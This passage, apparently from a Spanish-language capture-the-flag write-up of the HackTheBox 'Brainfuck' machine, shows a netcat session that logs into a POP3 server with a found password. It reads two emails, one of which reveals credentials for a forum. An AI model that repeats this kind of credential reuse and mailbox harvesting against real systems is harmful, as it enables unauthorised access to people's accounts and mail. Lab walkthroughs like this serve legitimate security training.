 En la máquina estaba abierto el puerto 25 (SMTP) y el 110 (POP3) por lo que me puedo conectar con netcat proporcionando esa contraseña y listar correos

```null
nc 10.10.10.17 110
+OK Dovecot ready.
USER orestis
+OK
PASS kHGuERB29DNiNE
+OK Logged in.
LIST
+OK 2 messages:
1 977
2 514
.
RETR 1
+OK 977 octets
Return-Path: <www-data@brainfuck.htb>
X-Original-To: orestis@brainfuck.htb
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 33)
	id 7150023B32; Mon, 17 Apr 2017 20:15:40 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: New WordPress Site
X-PHP-Originating-Script: 33:class-phpmailer.php
Date: Mon, 17 Apr 2017 17:15:40 +0000
From: WordPress <wordpress@brainfuck.htb>
Message-ID: <00edcd034a67f3b0b6b43bab82b0f872@brainfuck.htb>
X-Mailer: PHPMailer 5.2.22 (https://github.com/PHPMailer/PHPMailer)
MIME-Version: 1.0
Content-Type: text/plain; charset=UTF-8

Your new WordPress site has been successfully set up at:

https://brainfuck.htb

You can log in to the administrator account with the following information:

Username: admin
Password: The password you chose during the install.
Log in here: https://brainfuck.htb/wp-login.php

We hope you enjoy your new site. Thanks!

--The WordPress Team
https://wordpress.org/

RETR 2
+OK 514 octets
Return-Path: <root@brainfuck.htb>
X-Original-To: orestis
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 0)
	id 4227420AEB; Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: Forum Access Details
Message-Id: <20170429101206.4227420AEB@brainfuck>
Date: Sat, 29 Apr 2017 13:12:06 +0300 (EEST)
From: root@brainfuck.htb (root)

Hi there, your credentials for our "secret" forum are below :)

username: orestis
password: kIEnnfEKJ#9UmdO
```